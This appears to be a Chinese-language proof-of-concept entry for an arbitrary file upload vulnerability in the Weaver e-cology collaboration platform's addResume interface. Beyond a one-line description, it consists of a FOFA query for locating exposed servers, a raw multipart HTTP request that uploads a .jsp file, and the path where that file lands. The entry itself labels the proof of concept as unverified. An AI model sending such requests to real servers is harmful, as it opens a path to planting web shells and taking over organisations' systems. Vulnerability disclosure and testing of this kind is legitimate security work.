 # 泛微E-Cology系统接口/wxclient/app/recruit/resume/addResume存在任意文件上传漏洞

泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology系统接口`/wxclient/app/recruit/resume/addResume` 存在任意文件上传漏洞

## fofa

```java
app="泛微-协同商务系统"
```

## poc
 - 未验证

```java
POST /wxclient/app/recruit/resume/addResume?fileElementId=H HTTP/1.1
Host: 127.0.0.1:8088
Content-Length: 361
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryD5Mawpg068t7pbxZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryD5Mawpg068t7pbxZ
Content-Disposition: form-data; name="file"; filename="1222.jsp"
Content-Type: application/octet-stream

127
------WebKitFormBoundaryD5Mawpg068t7pbxZ
Content-Disposition: form-data; name="file"; filename="1222.jsp"
Content-Type: application/octet-stream

127
------WebKitFormBoundaryD5Mawpg068t7pbxZ--


上传到/upload/202408/1-2位大写字母/1222.jsp
```

